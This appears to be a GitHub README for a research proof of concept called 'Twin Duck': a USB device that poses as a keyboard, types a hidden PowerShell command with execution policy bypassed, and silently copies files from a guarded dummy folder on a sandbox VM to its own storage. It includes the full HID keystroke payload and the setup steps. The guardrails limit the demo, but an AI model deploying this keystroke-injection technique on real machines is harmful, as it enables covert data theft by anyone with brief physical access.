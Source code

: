 # Twin Duck POC Setup Guide

🚧 **Work in Progress (WIP):** This project is actively being tested and refined.  
Expect changes and improvements over time.  

⚠️ **Disclaimer:** This proof-of-concept (POC) is provided **for research and educational purposes only**.  
Use at your own risk. The author is not responsible for any damage, misuse, or consequences.

---

## 0) What You’ll Have When You’re Done
- A Twin Duck device that, on plug-in, types a PowerShell command.
- That command silently runs `Copy-DummyToUsb.ps1` from the USB storage.
- The script copies a dummy source (only if it contains `POC_OK.txt`) to the USB, while writing a log + manifest.

---

## 1) Prep the Dummy Source on the Target VM
```powershell
New-Item -ItemType Directory -Path "C:\POC\Source" -Force | Out-Null
"approved" | Set-Content "C:\POC\Source\POC_OK.txt"
New-Item -ItemType Directory -Path "C:\POC\Source\folder" -Force | Out-Null
"hello" | Set-Content "C:\POC\Source\folder\a.txt"
```

---

## 2) Prepare the Twin Duck Storage (USB Mass-Storage Side)
1. Plug in the device so the storage mounts (e.g., `E:\`).
2. Label the drive to something predictable (the payload searches by label):
   ```powershell
   Set-Volume -DriveLetter E -NewFileSystemLabel "DUCKY"
   ```
   👉 Replace `E` with whatever Windows assigns your USB.  
   The script does **not** hardcode a drive letter—it looks up the USB by its **label** (`DUCKY`).

3. Copy the script to the USB root:  
   - `Copy-DummyToUsb.ps1`

Result:
```
E:\Copy-DummyToUsb.ps1
```

---

## 3) Load the HID Payload (Keyboard Side)
Example payload (`inject_example.txt`):

```
DELAY 2000
GUI r
DELAY 300
STRING powershell -NoP -W Hidden -ExecutionPolicy Bypass -Command "$v=Get-Volume -FileSystemLabel 'DUCKY' -ErrorAction SilentlyContinue | ? DriveType -eq 'Removable' | select -First 1; if($v){ & (Join-Path ($v.DriveLetter+':\') 'Copy-DummyToUsb.ps1') -Source 'C:\POC\Source' -UsbLabel 'DUCKY' -MaxMB 200 }"
ENTER
```

---

## 4) Run the Demo (in Sandbox VM)
1. Ensure `C:\POC\Source` exists and contains `POC_OK.txt`.
2. Plug in the Twin Duck.
3. Check USB contents:
   - `poc_copy.log`
   - `POC_Extracted\`
   - `manifest.json`

---

## 5) Troubleshooting
- **Nothing happens** → increase `DELAY 2000` → `DELAY 4000` or higher.  
- **USB not found** → ensure the volume label is exactly `DUCKY`.  
- **Guardrail trips** → verify `POC_OK.txt` exists in the source path.  
- **Size too large** → re-run with higher `-MaxMB`.  

---

## 6) Optional: Timestamped Runs
Modify the script to copy into `POC_Extracted\<timestamp>` instead of overwriting.
